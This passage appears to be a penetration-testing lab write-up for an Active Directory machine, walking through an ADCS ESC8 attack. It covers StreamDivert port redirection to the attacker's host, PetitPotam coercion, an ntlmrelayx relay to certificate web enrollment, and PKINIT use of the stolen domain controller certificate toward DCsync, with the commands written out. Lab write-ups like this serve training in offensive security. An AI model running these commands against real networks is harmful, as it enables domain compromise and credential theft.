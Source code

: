 <img src="https://i.imgur.com/HM6Lxx9.png"/>

Checking for vulnerable templates through certipy

<img src="https://i.imgur.com/eGaifZv.png"/>

<img src="https://i.imgur.com/G2pkaLu.png"/>

This doesn't show any vulnerable templates instead there's web enrollment enabled which can be abused, known as `ESC8`  by performing coercion using any PoC on domain controller, relaying that machine account hash on ADCS server to get DC's ticket but the problem is we can't receive coercion if we ran it from our machine, so we need to redirect traffic coming on port 445 of BERSRV200 to a different port  (port mapping/ port redirect) and then do remote/reverse port forward ( depending if we are redirecting the traffic locally)

StreamDivert can be used here for port bending, transferring all required files via ftp, scp or by disabling firewall rules

<img src="https://i.imgur.com/hZOmARr.png"/>

We are going to redirect all traffic incoming on port 445 on to our kali IP, the config file for stream divert will look like this 

```powershell
tcp < 445 0.0.0.0 -> 10.8.0.136 445
```

<img src="https://i.imgur.com/BT2qXUI.png"/>

To confirm if we can perform coercion, start responder with smb set to On

<img src="https://i.imgur.com/dqN4rIp.png"/>

Using PetitPotam for coercion

<img src="https://i.imgur.com/OY6WfbE.png"/>

Now that we have confirmed that coercion is working, we can realy this authentication on ADCS server using ntlmrealyx also shutting smb and http server off from responder

<img src="https://i.imgur.com/p9KhquW.png"/>

```bash
proxychains ntlmrelayx.py -t http://BERSRV105.kaiju.vl/certsrv/certfnsh.asp -smb2support --adcs --template DomainController 
```

<img src="https://i.imgur.com/mfZGylx.png"/>

We'll receive DC's certificate through which we can request the TGT or AES key of domain controller through PKINIT authentication and then perform DCsync

```bash
proxychains python3 /opt/PKINITtools/gettgtpkinit.py -pfx-base64 $(cat ./DC.b64) -dc-ip 10.10.210.133 kaiju.vl/'BERSRV100$' dc.ccache
```

